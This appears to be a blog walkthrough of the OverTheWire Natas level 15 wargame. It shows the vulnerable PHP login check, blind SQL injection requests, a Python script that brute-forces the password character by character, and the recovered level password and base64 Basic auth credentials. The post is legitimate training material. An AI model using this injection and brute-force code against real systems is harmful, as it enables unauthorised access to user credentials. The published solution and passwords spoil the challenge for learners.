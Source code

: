 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 15"
date:   2015-09-21
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

## Level 15 > Level 16

![natas15-01](/img/otw-natas/natas15-01.png)

```
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This time around, nothing is returned - just a yes/no if the user exists (or, really, if our query results in any result). First, we'll guess that the username is natas16 using a stripped-down HTTP request that will be the basis of our later attack.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

username=natas16
```

```
<h1>natas15</h1>
<div id="content">
Executing query: SELECT * from users where username="natas16"<br>This user exists.<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

If we inject a statement that checks the username and only the first character of the password, we can loop through all letters and numbers to determine it. If successful, this can be expanded for each character position until we have the full password.

First, a POC in Burp Intruder. The request is as follows, where X is the character to iterate.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=natas16" and LEFT(password, 1)="X
```

![natas15-02](/img/otw-natas/natas15-02.png)

One payload results in a reponse with a suspiciously different length. "This user exists," it says - bingo.

As it turns out, the first character is 'W' and not 'w' as shown in Burp. As discussed [here](http://stackoverflow.com/questions/5629111/how-can-i-make-sql-case-sensitive-string-comparison-on-mysql), certain string comparisons are not case sensitive. The addition of BINARY as used in the injection code below fixes this issue.

The ugliness below is a hastily-written solution which bruteforces each individual character. I prefer crafting the request myself and sending it to a socket rather than using an HTTP library as it is easier to debug and offers tremendous flexibility. The `natas15(p)` function returns a boolean after trying password p. The loops walk through the problem in the most straightfoward way - keep trying characters at a given position until you find one, and keep adding a position until one is found for which no characters match.

```
import socket

HOST = "natas15.natas.labs.overthewire.org"
PORT = 80
HEAD = """POST /index.php HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: {clength}\r\n\r\n"""
POST = 'username=natas16" and BINARY LEFT(password, {glength})="{guess}'
ALPH = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

def natas15(p):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))

    TPOST = POST.format(glength=len(p), guess=p)
    REQU = HEAD.format(clength=len(TPOST)) + TPOST
    s.send(REQU)

    r = s.recv(8192)
    s.close()
    
    if "This user exists." in r:
        return True
    return False

p = ''
for i in xrange(64):
    f = False
    for c in ALPH:
        print p, c
        if natas15(p + c):
            f = True
            p = p + c
            break
    if not f:
        break

print "DONE"
print p
```

Success.

![natas15-03](/img/otw-natas/natas15-03.png)

WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
